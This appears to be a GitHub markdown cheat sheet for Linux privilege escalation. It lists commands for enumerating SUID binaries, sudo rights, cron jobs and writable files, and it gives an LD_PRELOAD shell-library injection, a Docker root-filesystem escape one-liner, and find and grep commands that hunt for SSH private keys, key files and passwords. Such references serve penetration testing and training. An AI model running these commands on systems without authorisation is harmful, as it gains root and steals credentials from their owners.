 ## Linux Priviledge Escalation
- OS Version

- Kernel Exploits
   - **Check Kernel**: `uname -r`
   - **Exploit**: Search for exploits by kernel version on Exploit-DB.
     
- Running Services
  
- SUID Binaries
   - **Find SUID Files**: `find / -perm -4000 2>/dev/null`
   - **Exploits**: Use GTFOBins for known SUID binary exploits.

- sudo -l (Check Sudo Privileges)
   - **List Privileges**: `sudo -l`
   - Running a vuln executable as particular user, `sudo -u targetuser /bin/vulnfile`
   - **Exploits**: Look for `NOPASSWD` or exploitable commands (e.g., `vim`, `find`).

- Cron Jobs
   - **View Cron Jobs**: `cat /etc/crontab`, `ls -la /etc/cron.d/`
   - **Exploits**: Writable cron scripts or wildcard abuse.

- Writable /etc/passwd
   - **Exploit**: Add new root user using password hash from `openssl passwd -1`.

- SSH Keys
   - **Find Keys**: `find / -name "*.pem" 2>/dev/null`
   - **Exploit**: Use private key for SSH if no passphrase.

- PATH Variable Manipulation
   - **Exploit**: Modify `PATH` and place malicious script in writable directory.

- NFS Root Squashing
   - **Check**: Look for `no_root_squash` in `/etc/exports`
   - **Exploit**: Mount and access with root on NFS share.

- World-Writable Files
   - **Find**: `find / -writable -type d 2>/dev/null`
   - **Exploit**: Overwrite world-writable scripts or binaries.

- LD_PRELOAD and LD_LIBRARY_PATH
   - **Exploit**: Inject code with custom library.
     ```bash
     gcc -fPIC -shared -o shell.so shell.c -nostartfiles
     LD_PRELOAD=./shell.so <vulnerable_program>
     ```
- Docker Privilege Escalation
   - **Exploit**: Mount root filesystem and escape container:
     ```bash
     docker run -v /:/mnt --rm -it alpine chroot /mnt sh
     ```
- Password and Credential Files
   - **Find Sensitive Files**:
     ```bash
     find / -name "*.bak" 2>/dev/null
     find / -name "*.old" 2>/dev/null
     grep -i "password" /path/to/directory
     ```
- Check Hidden Files
- Check Hidden Direstories
  - **ssh files**
    ```bash
    find / -name "id_rsa" -o -name "id_dsa" -o -name "authorized_keys" -o -name "known_hosts" 2>/dev/null
    find / -name "*.pem" -o -name "*.key" 2>/dev/null
    ```

     
